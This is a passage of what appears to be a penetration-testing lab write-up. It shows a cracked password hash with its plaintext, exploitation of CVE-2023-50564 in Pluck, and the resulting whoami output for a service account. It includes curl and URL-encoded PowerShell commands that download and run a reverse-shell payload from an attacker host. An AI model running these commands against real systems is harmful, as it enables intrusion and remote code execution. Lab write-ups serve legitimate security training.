 ```
https://hashes.com/en/decrypt/hash

c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e:lexypoo97
```

#### CVE-2023-50564

- https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC
- follow steps, start listner and get shell
- ```curl http://10.10.14.55:8000/xeu.exe -o xeu.exe ; .\xeu.exe```

powershell%20-c%20Invoke-WebRequest%20-Uri%20http://10.10.14.55:8000/rev.ps1%20-OutFile%20C:/Windows/Temp/rev.ps1;%20powershell%20-c%20C:/Windows/Temp/rev.ps1


```
PS C:\xampp\htdocs\data\modules\rev>whoami
ms01\svc_web
```

## shell as ms01\svc_web

```
PS C:\xampp\htdocs\data\modules\rev>whoami /all

USER INFORMATION
----------------

User Name    SID                                           
============ ==============================================
ms01\svc_web S-1-5-21-1075431363-3458046882-2723919965-1000


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------
```